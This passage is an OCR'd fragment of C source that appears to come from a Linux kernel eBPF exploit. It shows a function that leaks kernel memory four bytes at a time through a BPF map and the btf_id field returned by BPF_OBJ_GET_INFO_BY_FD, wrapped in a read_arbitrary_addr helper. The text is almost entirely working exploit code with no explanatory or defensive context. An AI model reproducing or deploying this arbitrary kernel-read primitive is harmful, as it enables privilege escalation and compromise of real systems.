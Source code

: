 ```
        BPF_EXIT_INSN()
    };
    struct bpf_map_info info;
    union bpf_attr attr = {
        .info.bpf_fd = map_fd,
        .info.info_len = sizeof(info),
        .info.info = (uint64_t) &info,
    };
    size_t data;
    int ret;

    ret = run_bpf_prog(prog, sizeof(prog) / sizeof(prog[0]), 1);
    if (ret < 0) {
        return 0;
    }

    memset(&info, 0, sizeof(info));
    ret = bpf(BPF_OBJ_GET_INFO_BY_FD, &attr);
    if (ret < 0) {
        return 0;
    }

    data = info.btf_id;

    return data;
}

size_t read_arbitrary_addr(int map_fd, size_t addr)
{
    size_t data;
    int key;
    size_t value[0x1000];

    puts(" Loading value into map...");
    key = 1;
    value[0] = addr;
    if (bpf_map_update_elem(map_fd, &key, &value, 0) < 0) {
        err_exit("FAILED to load value into map!");
    }
    key = 2;
    value[0] = addr + 4;
    if (bpf_map_update_elem(map_fd, &key, &value, 0) < 0) {
        err_exit("FAILED to load value into map!");
    }

    data = read_arbitrary_addr_4_bytes(map_fd, 2);
    data <<= 32;
    data += read_arbitrary_addr_4_bytes(map_fd, 1);

    return data;
}
```  
  